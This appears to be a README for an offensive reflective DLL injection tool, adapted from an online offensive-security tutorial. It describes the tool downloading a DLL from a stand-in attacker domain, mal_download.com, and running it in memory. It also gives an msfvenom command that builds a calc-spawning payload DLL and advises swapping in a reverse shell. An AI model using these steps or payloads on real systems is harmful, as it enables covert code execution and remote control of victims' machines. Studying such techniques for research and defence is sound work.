 # Injection Technique -> Reflective DLL Injection
## References
- Modified the following code for the reflective loader
    - https://www.ired.team/offensive-security/code-injection-process-injection/reflective-dll-injection
## To Run
- Must have the domain mal_download.com linked to a host that we control.
    - for testing an entry was added to the hosts file under c:\windows\system32\drivers\etc\hosts
- Hosting HTTP server tested against "python3 -m http.server 80". Failed against apache
- Create the DLL using `msfvenom -f dll -p windows/x64/exec CMD="c:\windows\system32\calc.exe -o spawn_calc.dll`
- The program reaches out to the http://mal_download.com/spawn_calc.dll to download a DLL which will be loaded in memory and executed.
- Current spawn_calc.dll was generated by metasploit. Replace with reverse shell to get a shell back
